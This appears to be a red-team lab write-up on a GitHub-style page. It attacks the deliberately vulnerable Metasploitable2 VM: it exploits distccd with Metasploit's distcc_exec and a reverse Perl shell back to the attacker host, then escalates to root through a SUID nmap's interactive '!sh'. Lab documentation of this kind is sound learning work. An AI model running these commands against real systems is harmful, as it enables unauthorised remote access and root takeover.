 #  Lab10 – distccd Exploit & SUID Nmap Privilege Escalation

My Red Team Journey – From Recon to Exploitation | Lab10 Report

---

##  Description

In this lab, we exploited the **distccd (Distributed C Compiler Daemon)** service running on Metasploitable2. After gaining a limited shell as the `daemon` user, we escalated privileges by abusing a vulnerable SUID binary (`nmap`) to obtain full **root access**.

---

##  Target System

| Component          | Info                      |
|-------------------|---------------------------|
| Target OS         | Metasploitable2           |
| IP Address        | `192.168.56.103`          |
| Attacker Machine  | Kali Linux (VBox)         |
| Attacker IP       | `192.168.56.102`          |

---

##  Exploitation Steps

###  1. Nmap Full Port Scan

```bash
nmap -p- -sV -T4 -oN fullscan.txt 192.168.56.103
Detected service:

3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```


### 2. Remote Code Execution via distcc
```bash
msfconsole
use exploit/unix/misc/distcc_exec
set payload cmd/unix/reverse_perl
set RHOST 192.168.56.103
set RPORT 3632
set LHOST 192.168.56.102
exploit
```

 #### Privilege Escalation
### 3. SUID Binary Enumeration
```bash
find / -perm -4000 -type f 2>/dev/null
```

```bash
/usr/bin/nmap
```

### 4. Root Access via Nmap Interactive Mode
```bash

nmap --interactive
```

```bash
nmap> !sh
```

```bash
whoami
id
hostname
```

```makefile
root
uid=0(root) gid=1(daemon)
```


## Screenshots
1-) ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.33.34.png)

2-) ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.37.17.png)

3-) ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.51.59.png)

4-) ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.52.45.png)

5-)![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab10/Screen%20Shot%202025-07-07%20at%2000.57.34.png)

## What I Learned
How to identify and exploit services like distccd

How to choose the right payload (Perl worked, Bash failed)

How to enumerate SUID binaries

How to leverage known tools (GTFOBins) for privilege escalation

The value of older software and misconfigurations in real-world pentests

